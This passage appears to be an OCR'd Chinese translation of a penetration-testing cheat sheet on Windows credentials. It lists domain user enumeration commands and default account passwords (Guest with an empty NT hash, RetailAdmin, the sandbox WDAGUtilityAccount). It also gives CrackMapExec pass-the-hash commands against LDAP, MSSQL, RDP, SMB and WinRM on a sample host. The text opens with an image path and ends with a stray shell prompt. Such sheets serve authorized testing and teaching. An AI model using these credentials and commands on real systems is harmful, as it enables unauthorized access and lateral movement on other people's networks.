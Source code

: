 关于您的用户的一些信息

```powershell
net user /dom
net user /domain
```

### 访客凭据

默认情况下，每台 Windows 机器都带有一个访客账户，其默认密码为空。

```powershell
用户名：Guest
密码：[空]
NT 哈希：31d6cfe0d16ae931b73c59d7e0c089c0
```

文档：
### 零售凭证

零售凭证 [@m8urnett 在 Twitter](https://twitter.com/m8urnett/status/1003835660380172289)

当你在零售演示模式下运行Windows时，它会创建一个名为Darrin DeYoung的用户和一个管理员RetailAdmin

```powershell
用户名：RetailAdmin
密码：trs10
```

### 沙盒凭证

WDAGUtilityAccount - [@never_released 在 Twitter](https://twitter.com/never_released/status/1081569133844676608)

从Windows 10版本1709（秋季创作者更新）开始，它是Windows Defender Application Guard的一部分

```powershell
\\windowssandbox
用户名：wdagutilityaccount
密码：pw123
```

## Crackmapexec

使用 [mpgn/CrackMapExec](https://github.com/mpgn/CrackMapExec)

* CrackMapExec支持多种协议

  ```powershell
  crackmapexec ldap 192.168.1.100 -u Administrator -H ":31d6cfe0d16ae931b73c59d7e0c089c0" 
  crackmapexec mssql 192.168.1.100 -u Administrator -H ":31d6cfe0d16ae931b73c59d7e0c089c0"
  crackmapexec rdp 192.168.1.100 -u Administrator -H ":31d6cfe0d16ae931b73c59d7e0c089c0" 
  crackmapexec smb 192.168.1.100 -u Administrator -H ":31d6cfe0d16ae931b73c59d7e0c089c0"
  crackmapexec winrm 192.168.1.100 -u Administrator -H ":31d6cfe0d16ae931b73c59d7e0c089c0"
  ```

* CrackMapExec适用于密码、NT哈希和Kerberos认证。


[DC01]: PS>